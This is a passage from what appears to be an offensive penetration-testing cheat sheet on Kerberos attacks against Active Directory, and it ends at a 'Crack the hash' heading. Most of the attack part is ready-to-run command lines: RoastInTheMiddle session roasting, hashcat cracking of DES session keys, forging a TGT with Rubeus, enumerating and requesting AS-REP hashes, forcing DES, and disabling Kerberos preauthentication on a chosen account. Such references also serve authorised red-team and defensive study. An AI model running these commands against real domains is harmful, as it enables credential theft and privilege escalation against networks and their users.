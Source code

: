 **For the moment, this version of RoastIntheMiddle doesn't seem available.**

```powershell
./RoastInTheMiddle.exe sessionroast /listenip:<attacker_IP> /targets:<target_IP_1>,<target_IP_2> /dcs:<DC_IP_1>,<DC_IP_2> /tgt:<TGT_of_known_user>
```

The "Hash DES session key" can be cracked with hashcat:

```bash
hashcat -a 3 -m 14000 <DES_hash> -1 charsets/DES_full.charset --hex-charset ?1?1?1?1?1?1?1?1
```

And the crack result (which is the DES session key) with the "Kirbi missing session key" can be combined to build a valid TGT:

```powershell
./Rubeus.exe kirbi /sessionkey:<cracked_session_key> /sessionetype:des /kirbi:<kirbi_w/o_session_key> /nowrap
```

### AS-REP Roasting

#### Enumerate users

```powershell
#UPowerView:
Get-DomainUser -PreauthNotRequired -Verbose

#AD module:
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

#### Request AS-REP hash

```powershell
.\Rubeus.exe asreproast /user:<target> /domain:domain.local /format:hashcat

#To enumerate AS-REP roastable users through LDAP
.\Rubeus.exe asreproast /creduser:"domain.local\user1" /credpassword:"password" /domain:domain.local /format:hashcat
```

It is possible to force DES, if it is allowed:

```powershell
.\Rubeus.exe asreproast /user:<target> /domain:domain.local /des /format:hashcat
```

#### Disable Kerberos Preauth

With PowerView, with enough privileges it is possible to perform targeted AS-REP roasting.

```powershell
Set-DomainObject -Identity user1 -XOR @{useraccountcontrol=4194304} -Verbose
Get-DomainUser -PreauthNotRequired -Verbose
```

#### Crack the hash
